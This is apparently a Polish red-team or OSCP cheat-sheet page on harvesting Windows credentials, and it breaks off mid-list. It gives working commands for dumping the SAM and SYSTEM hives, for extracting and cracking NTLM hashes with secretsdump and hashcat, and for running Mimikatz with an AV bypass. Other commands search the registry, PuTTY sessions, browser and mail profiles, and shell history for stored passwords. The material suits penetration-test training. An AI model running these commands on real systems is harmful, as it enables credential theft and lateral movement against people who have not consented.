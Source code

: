 

<h4 class="wp-block-heading"><span class="ez-toc-section" id="Passwords" ez-toc-data-id="#Passwords"></span>Passwords:<span class="ez-toc-section-end"></span></h4>



<p><strong>###SAM &amp; SYSTEM###</strong><br>#<strong>reg save HKLM\sam sam</strong> (musisz być elevated inaczej wygeneruje 0 bajt)<br>#<strong>reg save HKLM\system system </strong>(musisz być elevated inaczej wygeneruje 0 bajt)<br>#<mark style="background-color:#ffbec5" class="has-inline-color">secretsdump.py -sam SAM -system SYSTEM LOCAL</mark><br>#<mark style="background-color:#ffedb8" class="has-inline-color">samdump2 system sam</mark> (uruchom na Kali gdzie wrzucisz te 2 pliki, skopiuj całośc do hashes.txt ; kiedys mnie zawiodlo i nie pokazalo wszystkich hashy)<br>#secretsdump.py -ntds Plik.dit -system JakisPlik.bin LOCAL<br>#hashcat -m 1000 -a 3 hashes.txt rockyou.txt (bo 1000 jest dla NTLM)<br>#szukaj tez plików sam i system w C:\Windows\Repair\<br><strong>###Mimikatz###</strong><br>#powershell -ep bypass<br>#import-module .\Invoke-Mimikatz.ps1 <br>#Invoke-Mimikatz -Command <mark style="background-color:#b8ffa8" class="has-inline-color">'”privilege::debug” „token::elevate” „sekurlsa::logonpasswords” „lsadump::sam”</mark> „exit”’ (musisz być Lokalnym Administratorem ELEVATED!!!! (musisz Disabele Firewall i AV))<br>#Pobrane NTLM hashe łatwo łamie na <a href="https://crackstation.net/">https://crackstation.net/</a><br>#&gt;&gt;&gt; Przejdź do PTH<br><strong>###szukaj ###</strong><br>#szukanie pliku z danym rozszerzeniem na maszynie: PS: Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue<br>#najszybszy sposób szukania plików (<strong>musisz być w c:\</strong>): <strong><mark style="background-color:#bbffac" class="has-inline-color">dir /s /p proof.txt</mark></strong> (zamiast proof.txt moższ np. config.*, TYLKO w <strong>cmd</strong> dziala!  ;  /s szuka string rekurencyjnie ; /p to tylko stronicowanie wynikow  )<br>#szukanie w plikach config: dir /s pass == cred == vnc == .config (szukaj słów pass, cred, vnc z plikach .config)<br>#dir/s *.doc (szukanie wszystkich plikow .doc na maszynie)<br>#where /R C:\ user.txt (w cmd szukanie pliku o konkretnej nazwie, można też user.* albo user*)<br>#PS: REG QUERY HKLM /F „password” /t REG_SZ /S /K (szukanie w Rejestrze)<br>#PS: REG QUERY HKCU /F „password” /t REG_SZ /S /K<br>#Invoke-WindowsSearch.psm1 (do szukania słowa w indeksie Windows ; uruchom jako administrator; użycie: Invoke-WindowsSearch passwords ; redteam)<br><strong>###findstr###</strong><br>#findstr /spin „password” (/s szuka tego stringu, domyslenie dziala rekurencyjnie  ;   /p pomija pliki z niedrukowanymi znakami, /i to obojetnie jakie litery  ;  /n wyswietla numery linki w wynikach  ;; chyba obojetne czy jest cudzyslow czy nie ma)<br>#findstr /spin password *.doc *.txt *.ini *.config *.xml *.xls *.php *.asp *.aspx *.inf *.inc   (tylko w plikach z takich rozszerzeniem  ;  mozesz zamiast password dac pass)<br>#inne komendy szukaj na PayloadAllTheThings<br><strong>###Search for password in registry###</strong><br>#reg query HKLM /f password /t REG_SZ /s<br>#reg query HKCU /f password /t REG_SZ /s<br>#reg query „HKCU\Software\SimonTatham\PuTTY\Sessions\$USER” (szukanie credsów w sesji Putty, można zamienić na VNC)<br><strong>###Get-Childitem###</strong><br>#Get-ChildItem *.txt -Recurse -Force  (szukanie plików .txt resursywnie)<br><strong>###pliki###</strong><br>#C:\Users\\AppData\Roaming\Mozilla\Firefox\Profiles\xxxx.default<br>#C:\Users\alex\AppData\Roaming\Thunderbird\Profiles\jbv4ndsh.default- release\Mail\mail.sandbox.local\Inbox<br>#PS: gci -r | sls password | sls -NoMatch „falszywy1″,:flaszywy2” (redteam)<br>#(Get-PSReadlineOption).HistorySavePath (znajdz plik historii wiersza poleceń i przejrzyj go)<br>#zrzut trzymanych poświadczeń w Managerze Poświadczeń, kod PS <a href="https://3haker.pl/zrzut-poswiadczen-w-windows-kod-ps/">tutaj</a> (redteam)<br><strong>###PV###</strong><br>#Get-NetLoggedon -ComputerName client251<br>#Get-NetSession -ComputerName dc01<br><strong>###SouronEye.exe (by siddicky)###</strong><br>#<a href="https://github.com/vivami/SauronEye">github</a>, jest tez exe do pobrania<br>#wystarczy .\SouronEye.exe<br><strong><mark style="background-color:#ffa2fe" class="has-inline-color">###oscp23###</mark></strong><br>#PS: Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue<br>#PS: Get-ChildItem -Path C:\xampp -Include *<em>.txt,</em>*.ini -File -Recurse -ErrorAction SilentlyContinue (nie cały C tylko konkretny folder ; ciekawe: my.ini i passwords.txt)<br>#Get-ChildItem -Path C:\Users\USER_NAME\ -Include <em>*.txt,*</em>.pdf,*<em>.xls,*</em>.xlsx,*<em>.doc,*</em>.docx -File -Recurse -ErrorAction SilentlyContinue (szukanie nietypowych likow w folderze usera)<br>#—–<br>#Dobre polecenie do szukania wartosciowych plików:</p>
